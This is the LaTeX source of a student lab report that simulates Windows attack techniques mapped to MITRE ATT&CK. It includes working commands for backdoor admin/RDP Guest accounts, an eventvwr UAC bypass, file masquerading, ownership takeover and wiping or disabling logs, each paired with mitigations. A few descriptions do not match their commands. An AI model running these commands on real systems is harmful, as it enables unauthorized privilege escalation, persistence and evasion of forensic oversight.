\documentclass[11pt]{article}

\usepackage[margin=1in]{geometry}
\usepackage{amsfonts, amsmath, amssymb}
\usepackage{fancyhdr, float, graphicx}
\usepackage[utf8]{inputenc} % Required for inputting international characters
\usepackage[T1]{fontenc} % Output font encoding for international characters
\usepackage{fouriernc} % Use the New Century Schoolbook font
\usepackage[nottoc, notlot, notlof]{tocbibind}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{blindtext}
\usepackage{hyperref}
\hypersetup{
	colorlinks=true,
	linkcolor=black,
	filecolor=magenta,
	urlcolor=blue,
	pdfpagemode=FullScreen,
}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
	backgroundcolor=\color{backcolour},
	commentstyle=\color{codegreen},
	keywordstyle=\color{magenta},
	numberstyle=\tiny\color{codegray},
	stringstyle=\color{codepurple},
	basicstyle=\ttfamily\footnotesize,
	breakatwhitespace=false,
	breaklines=true,
	captionpos=b,
	keepspaces=true,
	numbers=left,
	numbersep=5pt,
	showspaces=false,
	showstringspaces=false,
	showtabs=false,
	tabsize=2
}

\lstset{style=mystyle}

% Header and Footer
\pagestyle{fancy}
\fancyhead{}
\fancyfoot{}
\fancyhead[L]{\textit{\Large{Attack Reserach and Documentation - Fourth Year B. Tech}}}
\fancyhead[R]{\textit{Krishnaraj T}}
\fancyfoot[C]{\thepage}
\renewcommand{\footrulewidth}{1pt}

\begin{document}

\begin{titlepage}
	\centering

	%---------------------------NAMES-------------------------------

	\huge\textsc{
		MIT World Peace University
	}\\

	\vspace{0.75\baselineskip} % space after Uni Name

	\LARGE{
		Attack Research and Documentation\\
		Fourth Year B. Tech, Semester 8
	}

	\vfill % space after Sub Name

	%--------------------------TITLE-------------------------------

	\rule{\textwidth}{1.6pt}\vspace*{-\baselineskip}\vspace*{2pt}
	\rule{\textwidth}{0.6pt}
	\vspace{0.75\baselineskip} % Whitespace above the title

	\huge{\textsc{
        Analyze and Document a simulated Malware Attack
        }} \\

	\vspace{0.5\baselineskip} % Whitespace below the title
	\rule{\textwidth}{0.6pt}\vspace*{-\baselineskip}\vspace*{2.8pt}
	\rule{\textwidth}{1.6pt}

	\vspace{1\baselineskip} % Whitespace after the title block

	%--------------------------SUBTITLE --------------------------	

	\LARGE\textsc{
		Lab Assignment 3
	} % Subtitle or further description
	\vfill

	%--------------------------AUTHOR-------------------------------

	Prepared By \vspace{0.5\baselineskip} % Whitespace before the editors

	\Large{
		Krishnaraj Thadesar \\
		Cyber Security and Forensics\\
        Batch A1, PA 15
	}

	\vspace{0.5\baselineskip} % Whitespace below the editor list
	\today

\end{titlepage}

\tableofcontents
\thispagestyle{empty}
\clearpage

\setcounter{page}{1}
\section{Aim}
To Analyze and document a simulated malware attack.
\section{Objective}
\begin{enumerate}
    \item To identify the entry points and propagation methods of the simulated malware.
    \item To analyze the payload and behavior of the malware during execution.
    \item To document the system changes and data alterations caused by the malware.
    \item To evaluate the effectiveness of existing security measures against the malware.
    \item To propose recommendations for improving system defenses based on the analysis.
\end{enumerate}
\section{Theory}
\subsection{Malware}
Malware is a malicious software designed to disrupt, damage, or gain unauthorized access to a computer system. It includes viruses, worms, trojans, ransomware, spyware, adware, and other types of malicious software. Malware can be distributed through email attachments, malicious websites, infected files, and other means. It can cause data loss, system crashes, identity theft, financial fraud, and other security risks.
\subsection{Types of Malware}
\begin{enumerate}
    \item \textbf{Virus:} A virus is a self-replicating program that attaches itself to other programs or files and spreads to other systems.
    \item \textbf{Worm:} A worm is a standalone program that replicates itself and spreads across networks without user intervention.
    \item \textbf{Trojan:} A trojan is a program that appears legitimate but performs malicious activities when executed.
    \item \textbf{Ransomware:} Ransomware is a type of malware that encrypts files and demands a ransom for decryption.
    \item \textbf{Spyware:} Spyware is a program that collects user information without their knowledge or consent.
    \item \textbf{Adware:} Adware is a program that displays unwanted advertisements on the user's system.
    \item \textbf{Rootkit:} A rootkit is a set of tools that allows attackers to maintain unauthorized access to a system.
\end{enumerate}
\subsection{Malware Analysis}
Malware analysis is the process of examining malware samples to understand their behavior, functionality, and impact on computer systems. It involves static analysis, dynamic analysis, and code analysis to identify the malware's characteristics, capabilities, and vulnerabilities. Malware analysis helps security professionals develop countermeasures, detect infections, and prevent future attacks.
\subsection{Static Analysis}
Static analysis involves examining the malware's code, structure, and properties without executing it. Example tools: \textbf{IDA Pro}, \textbf{strings}.

\subsection{Dynamic Analysis}
Dynamic analysis involves executing the malware in a controlled environment to observe its behavior and effects. Example tools: \textbf{Cuckoo Sandbox}, \textbf{tcpdump}.

\section{Implementation}
\subsection{Test Case 1: T1078.001 - Valid Accounts: Default Accounts}
\subsubsection{Description}
This test case simulates the exploitation of default accounts (T1078.001) by enabling the built-in Guest account on a Windows system. It sets a password, adds the Guest account to the Administrators and Remote Desktop Users groups, and enables RDP access. This demonstrates how attackers can leverage default accounts for unauthorized access, privilege escalation, and remote control.
\begin{lstlisting}[language=bash, caption=Enable Guest Account]
@echo off
REM Atomic Test #1 - Enable Guest account with RDP capability and admin privileges
REM Tactic: Initial Access, Persistence, Privilege Escalation, Defense Evasion
REM Technique: T1078.001 - Valid Accounts: Default Accounts

REM Variables
set guest_user=guest
set guest_password=Password123!
set local_admin_group=Administrators
set remote_desktop_users_group_name="Remote Desktop Users"

echo [*] Starting Guest Account Configuration...

REM Enable Guest account
echo [*] Enabling Guest account...
net user %guest_user% /active:yes
if %errorlevel%==0 (
    echo [+] Guest account enabled successfully.
) else (
    echo [-] Failed to enable Guest account.
)

REM Set Guest account password
echo [*] Setting Guest account password...
net user %guest_user% %guest_password%
if %errorlevel%==0 (
    echo [+] Guest password set successfully.
) else (
    echo [-] Failed to set Guest password.
)

REM Add Guest to Administrators group
echo [*] Adding Guest to Administrators group...
net localgroup %local_admin_group% %guest_user% /add
if %errorlevel%==0 (
    echo [+] Guest added to Administrators group.
) else (
    echo [-] Failed to add Guest to Administrators group.
)

REM Add Guest to Remote Desktop Users group
echo [*] Adding Guest to Remote Desktop Users group...
net localgroup %remote_desktop_users_group_name% %guest_user% /add
if %errorlevel%==0 (
    echo [+] Guest added to Remote Desktop Users group.
) else (
    echo [-] Failed to add Guest to Remote Desktop Users group.
)

REM Enable Remote Desktop access
echo [*] Enabling Remote Desktop access...
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
if %errorlevel%==0 (
    echo [+] RDP access enabled (fDenyTSConnections set to 0).
) else (
    echo [-] Failed to enable RDP access.
)

reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
if %errorlevel%==0 (
    echo [+] RDP connections allowed (AllowTSConnections set to 1).
) else (
    echo [-] Failed to allow RDP connections.
)

echo.
echo [*] Guest account "%guest_user%" configured with RDP and admin privileges.
echo [*] Please take a screenshot now for practical submission.
pause
\end{lstlisting}
\subsubsection{Output}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{./images/1.jpeg}
    \caption{Guest Account Configuration}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{./images/2.jpeg}
    \caption{Adding Guest to Administrators Group}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{./images/3.jpeg}
    \caption{Guest Account Properties (net user)}
    \end{figure}

    \subsubsection{Result}
    The test successfully created a Guest account, added it to the local Administrators group, and granted full administrative privileges.
    
    \subsubsection{Mitigation}
    Endpoint protection should enforce strict user account control policies, monitor for unauthorized privilege escalations, and implement alerts for new admin-level accounts, especially for default or guest accounts.

\subsection{Test Case 2: T1036.003 - Masquerading: Rename System Utilities}
\subsubsection{Description}
Attempted to masquerade cmd.exe as lsass.exe by renaming and executing it. The system blocked the execution, recognizing lsass.exe as a protected security process.
\begin{lstlisting}[language=bash, caption=Masquerading cmd.exe as lsass.exe]
    copy %SystemRoot%\System32\cmd.exe %SystemRoot%\Temp\lsass.exe
    %SystemRoot%\Temp\lsass.exe /B
\end{lstlisting}
\subsubsection{Output}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{./images/4.jpeg}
    \caption{Renaming cmd.exe to lsass.exe}
\end{figure}
\subsubsection{Result}
Error – System blocked the renamed lsass.exe from executing.
\subsubsection{Reason}
Windows has built-in protections for critical system processes like lsass.exe. These safeguards prevent unauthorized or malicious attempts to masquerade as essential system files, blocking the execution of renamed utilities to maintain system integrity and security.

\subsection{Test Case 3: T1036.007 - Masquerading: Double File Extensions}
\subsubsection{Description}
In this Test we Created a malicious file using double extensions (e.g., Evil.txt.exe) to masquerade as a harmless text file. This technique aims to trick users into executing malicious code, exploiting systems that hide known file extensions.
\begin{lstlisting}
copy %SystemRoot%\System32\cmd.exe %UserProfile%\Desktop\Evil.txt.exe
\end{lstlisting}
\subsubsection{Output}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{./images/5.jpeg}
    \caption{Creating Malicious File with Double Extension}
\end{figure}
\subsubsection{Result}
The file was created successfully with the double extension Evil.txt.exe.
\subsubsection{Mitigation}
To prevent masquerading attacks, users should enable file extensions in Windows Explorer, avoid opening suspicious files, and use endpoint protection to detect and block malicious files.
\subsection{Test Case 4: T1222.001 File and Directory Permissions Modification: Windows File and Directory Permissions Modification}
\subsubsection{Description}
In this Test we Executed takeown.exe to take ownership of the target folder, modifying its DACL to grant full control. This simulates an attacker bypassing ACLs to gain unauthorized access to protected files.
\begin{lstlisting}
    takeown.exe /f \#\{file_folder_to_own\} /r
\end{lstlisting}
\subsubsection{Output}
\begin{figure}[H]
    \centering
    
\includegraphics[width=1.1\textwidth]{./images/6.jpeg}
    \caption{Taking Ownership of Target Folder}
\end{figure}
\subsubsection{Result}
The test successfully took ownership of the target folder and granted full control permissions.
\subsubsection{Mitigation}
To prevent unauthorized file access, organizations should enforce strict file permissions, monitor for changes to file ownership, and implement alerts for suspicious file modifications.
\subsection{Test Case 5: T1548.002   Abuse Elevation Control Mechanism: Bypass User Account Control}
\subsubsection{Description}
Modified the Windows Registry to hijack eventvwr.msc execution, allowing cmd.exe to run with elevated privileges without triggering a UAC prompt. This method exploits how Event Viewer auto-elevates without proper validation.
\begin{lstlisting}[language=bash]
    reg.exe add hkcu\software\classes\mscfile\shell\open\command /ve /d "C:\Windows\System32\cmd.exe" /f
    cmd.exe /c eventvwr.msc
    \end{lstlisting}
\subsubsection{Output}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{./images/7.jpeg}
    \caption{Bypassing User Account Control}
\end{figure}
\subsubsection{Result}
The test successfully bypassed UAC by hijacking eventvwr.msc execution, running cmd.exe with elevated privileges.
\subsubsection{Mitigation}
To prevent UAC bypasses, organizations should restrict registry access, monitor for unauthorized registry changes, and implement application whitelisting to prevent unauthorized code execution.    
\subsection{Test Case 6: T1564 -- Hide Artifacts: To Create a Hidden User Called ``\$''}
\subsubsection{Description}
In this Test we Created a hidden user account named ``\$'' to evade detection and maintain persistence. This technique hides the user from the login screen and user management tools, making it difficult to detect and remove.
\subsubsection{Output}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{./images/8.jpeg}
    \caption{Creating Hidden User Account}
\end{figure}
\subsubsection{Result}
The test successfully created a hidden user account named ``\$''.
\subsubsection{Mitigation}
To detect hidden user accounts, organizations should regularly audit user accounts, monitor for unauthorized account creations, and implement security policies to restrict user management privileges.
\subsection{Test Case 7: T1070.003 - Indicator Removal on Host: Clear Command History}
\subsubsection{Description}
This test case demonstrates how to prevent PowerShell from logging command history by modifying the registry settings. By disabling history logging, attackers can evade detection and forensic analysis, making it difficult to trace their activities.

\begin{lstlisting}[language=bash, caption=Prevent PowerShell History Logging]
# Disable PowerShell history logging
Set-PSReadlineOption -HistorySaveStyle SaveNothing
\end{lstlisting}

\subsubsection{Result}
The test successfully disabled PowerShell history logging by modifying the registry settings, preventing the storage of command history.

\subsubsection{Mitigation}
To prevent unauthorized modifications to PowerShell logging settings, organizations should enforce strict registry access controls, monitor for changes to PowerShell configuration, and implement endpoint protection to detect and block suspicious activities.

\subsection{Test Case 7-2 : T1070.003 - Indicator Removal on Host: Clear Command History}
\subsubsection{Description}
Deletes the PowerShell history file, erasing all recorded commands from previous sessions.
\begin{lstlisting}[language=bash]
    Remove-Item (Get-PSReadlineOption).HistorySavePath
\end{lstlisting}
\subsubsection{Result}
After execution, the PowerShell history file is removed, and no past commands are retrievable.
\subsubsection{Mitigation}
Implement File Integrity Monitoring (FIM) to detect deletion of critical files and restrict user permissions to prevent unauthorized removal of history files.
\subsection{Test Case 8: T1562.002 - Impair Defenses: Disable Windows Event Logging}
\subsubsection{Description}
This test case demonstrates how to disable Windows Event Logging by modifying the registry settings. By disabling event logging, attackers can evade detection and forensic analysis, making it difficult to monitor system activities and security events.
\begin{lstlisting}
    C:\Windows\System32\inetsrv\appcmd.exe set config "#{website_name}" /section:httplogging /dontLog:true
\end{lstlisting}
\subsubsection{Result}
\begin{enumerate}
    \item Disabling Windows Event Logging requires Administrator or SYSTEM-level privileges. Running the commands without elevated permissions will result in "Access Denied" errors.
    \item The EventLog service is a critical system service. In modern Windows versions (especially from Windows 10/11 onward), it has protections to prevent unauthorized disabling. Attempting to stop or disable it without bypassing these protections may fail.
    \item Windows Defender Tamper Protection can block changes to security settings, including disabling Event Logging. If enabled, attempts to disable the EventLog service via commands or registry edits will fail.
\end{enumerate}
\subsubsection{Mitigation}
To prevent unauthorized changes to Windows Event Logging, organizations should enforce strict registry access controls, monitor for changes to event log settings, and implement endpoint protection to detect and block suspicious activities.
\section{Conclusion}
The simulated malware attack revealed vulnerabilities in system defenses. By analyzing attack vectors and system changes, we identified weaknesses in endpoint protection, user account control, and event logging. Recommendations include enforcing strict user controls, monitoring changes, and implementing endpoint protection to enhance security and mitigate malware risks.

\clearpage
\begin{thebibliography}{99}
	\bibitem{wireshark}
	Wireshark. \\
	Website: \url{https://www.wireshark.org/}

	\bibitem{tshark}
	Tshark. \\
	Website: \url{https://www.wireshark.org/docs/man-pages/tshark.html}

	\bibitem{tcpdump}
	Tcpdump. \\
	Website: \url{https://www.tcpdump.org/}

	\bibitem{aircrack}
	AirCrack-ng. \\
	Website: \url{https://www.aircrack-ng.org/}

	\bibitem{airsnort}
	AirSnort. \\
	Website: \url{https://sourceforge.net/projects/airsnort/}
\end{thebibliography}

\end{document}